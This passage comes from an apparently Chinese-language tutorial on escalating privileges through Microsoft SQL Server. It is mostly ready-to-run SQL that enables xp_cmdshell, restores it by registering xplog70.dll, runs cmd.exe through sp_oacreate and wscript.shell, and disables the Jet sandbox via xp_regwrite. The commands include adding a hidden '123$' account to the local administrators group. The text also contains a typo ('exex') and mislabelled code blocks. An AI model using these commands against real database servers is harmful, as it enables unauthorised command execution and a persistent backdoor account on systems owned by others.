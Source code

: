 ```vue
reconfigure;
exec sp_configure 'xp_cmdshell',0;
reconfigure;
```
![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648295909416-fcb71b31-b91e-4f8f-b177-812d1b81bb3d.png#clientId=u249298de-b33e-4&from=paste&id=uc42e052a&originHeight=228&originWidth=382&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=ufad83bc8-ceb5-4ace-9a6c-a5df847ce6f&title=)<br /><4>接下来，我们就可以执行任意命令了。
```vue
EXEC master.dbo.xp_cmdshell '命令';
```
![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648295953098-9a0ac855-124c-4a44-aa34-6219b9882b4a.png#clientId=u249298de-b33e-4&from=paste&id=uea2e6907&originHeight=241&originWidth=373&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u9c697aa8-7c34-48ef-b91f-0e42bddc73a&title=)<br /><5>如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复
```sql
exex master.sys.sp_addextendedproc 'xp_cmdshell','C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll'

```
xp_cmdshell在数据库-系统数据库-master-可编程性-扩展存储过程-系统扩展存储过程目录下。<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648296004683-e5cf8d15-d223-4b22-aded-b2b798c7d320.png#clientId=u249298de-b33e-4&from=paste&id=ub0145787&originHeight=232&originWidth=844&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u9bdeab56-e4b7-4804-8811-6e02f447c5e&title=)
<a name="bUrMy"></a>
## 2、使用sp_oacreate进行提权
主要是用来调用OLE对象，利用OLE对象的run方法执行系统命令。<br /><1>启用sp_oacreate
```sql
启用：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',1;
RECONFIGURE WITH OVERRIDE;
 
关闭：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',0;
RECONFIGURE WITH OVERRIDE;
```
![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1648296084141-050e63a0-15c0-43ff-9e3a-010844ea13ae.png#clientId=u249298de-b33e-4&from=paste&id=u86a70ac8&originHeight=229&originWidth=377&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u3939ee3d-4248-4257-84e0-f3a5ca139a4&title=)<br /><2>执行命令
```vue
执行whoami查看权限：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
 
添加用户：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user 123$ 123/add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators 123$ /add'

```
<a name="BF9V8"></a>
## 3、使用SqlServer沙盒提权
```sql
-提权语句
exec sp_configure 'show advanced options',1;reconfigure;
 
-- 不开启的话在执行xp_regwrite会提示让我们开启
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
 
--关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
 
--查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。
```